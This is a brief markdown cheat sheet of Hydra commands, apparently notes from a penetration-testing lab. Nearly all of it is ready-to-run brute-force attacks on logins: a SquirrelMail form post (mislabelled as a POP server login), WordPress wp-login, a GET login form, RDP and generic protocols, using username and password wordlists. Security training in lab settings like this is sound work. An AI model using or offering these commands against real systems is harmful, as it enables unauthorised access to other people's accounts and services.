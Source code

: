 # Commands for Hydra

command used to login to a pop server
```
hydra -l milesdyson -P log1.txt 10.10.229.129 -V http-form-post '/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown User or password incorrect.'
```
Brute force against a protocol of your choice
```
hydra -P <wordlist> -v <ip> <protocol>
```
You can use Hydra to bruteforce usernames as well as passwords. It will loop through every combination in your lists. (-vV = verbose mode, showing login attempts)
```
hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol>``
```
Attack a Windows Remote Desktop with a password list.
```
hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>
```
Craft a more specific request for Hydra to brute force.
```
hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```
```
hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f 
```
